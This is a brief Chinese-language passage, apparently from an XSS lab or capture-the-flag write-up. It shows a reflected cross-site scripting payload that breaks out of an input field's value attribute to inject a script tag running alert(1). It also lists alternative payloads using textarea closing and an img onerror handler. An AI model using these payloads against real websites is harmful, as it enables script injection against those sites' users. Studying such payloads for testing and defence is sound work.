 #### **Payload构造**
```html
"><script>alert(1)</script>
```
**复现步骤**：
1. 输入Payload后查看生成代码：
```html
<input type="text" value=""><script>alert(1)</script>">
```
2. **思维突破**：
   - 尝试用`</textarea>`闭合场景
   - 测试`< img src=1 onerror=alert(1)>`等非script标签方案

